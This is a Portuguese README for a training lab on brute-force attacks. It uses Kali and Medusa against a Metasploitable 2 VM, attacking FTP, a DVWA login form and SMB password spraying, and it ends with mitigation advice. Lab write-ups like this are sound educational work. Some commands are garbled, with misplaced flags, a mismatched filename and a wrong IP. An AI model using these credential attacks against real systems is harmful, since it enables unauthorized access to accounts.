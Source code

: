 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlado)**

Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox-host-only) rede interna.

⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**

* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* imagens (screenshots)

**Objetivos do projeto:**

1.  Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only.
2.  Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3.  Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4.  Estrutura das VMs (configuração sugerida).
5.  Instalar VirtualBox.
6.  Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7.  VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8.  VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9.  Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux).
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).

**Comandos - varredura inicial**

1. Descobrir serviços com nmap:

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```

**Ataque FTP com Medusa**

2. força bruta contra usuários conhecidos (ex: admin) com uma wordlist pequena.

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Explicação das flags:**

* h host alvo
* u usuário único (use -U para arquivo de usuários)
* P caminho da wordlist de senhas
* M ftp módulo FTP
* T 6 threads (ajuste conforme ambiente)
* f encerra ao encontrar credenciais válidas

3. Validação, após encontrar credenciais faça login com ftp:

```bash
ftp 192.168.56.101
```

**Ataque a formulário web (DVWA) com Medusa (http_form)**

DVWA costuma ter login em dvwa/login.php. Exemplo de uso do módulo http_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):

1. Exemplo de http_form (substitua os campos conforme o formulário real):

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

2. Validação, tente fazer login no navegador usando as credenciais encontradas.

**Password spraying em SMB (com enumeração de usuários)**

* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).

1. Enumeração com enum4linux:

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```

2. Crie wordlists conforme ajuste:

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt

echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas spray.txt
```

3. Medusa smbnt (sintaxe genérica - ajuste conforme versão), Usando arquivo de usuários (-U) e uma pequena wordlist (-P):

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal/spraying: para vários usuários tenta poucas senhas comuns.

4. Validação, se houver credenciais válidas, usar smbclient para acesso:

```bash
smbclient -L //192.168.56.20 -U msfadmin
```

**Recomendações de mitigação (boas práticas):**

* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.


